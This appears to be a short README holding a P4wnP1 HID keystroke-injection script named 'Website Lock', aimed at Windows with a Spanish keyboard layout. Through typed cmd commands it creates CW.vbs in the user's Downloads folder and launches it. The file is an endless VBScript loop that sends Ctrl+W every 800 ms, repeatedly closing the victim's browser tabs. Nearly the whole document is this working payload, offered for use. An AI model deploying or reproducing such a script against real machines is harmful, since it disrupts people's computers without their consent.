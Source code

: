 # WEBSITE BLOCK
This script has been written in javascript adapted to P4wnP1 language in order to be ran in a Windows desktop environment

# Script
```js
layout('es');                   // Spanish keyboard layout
typingSpeed(100,150)    // Wait 100ms between key strokes + an additional random value between 0ms and 150ms (natural)

// Title: Website Lock
// Author: Ernest & Isaac
press("ESC")
delay(500)
press("GUI r")
delay(200)
type("cmd")
press("ENTER")
delay(200)
type("cd %userprofile%/Downloads")
press("ENTER")
type("copy con CW.vbs")
press("ENTER")
type("do")
press("ENTER")
type("Set objShell = CreateObject("WScript.Shell")")
press("ENTER")
type("WScript.Sleep 800")
press("ENTER")
type("objShell.SendKeys "^{W}"")
press("ENTER")
type("loop")
delay(100)
press("ENTER")
type("start CW.vbs && exit")
press("ENTER")
```
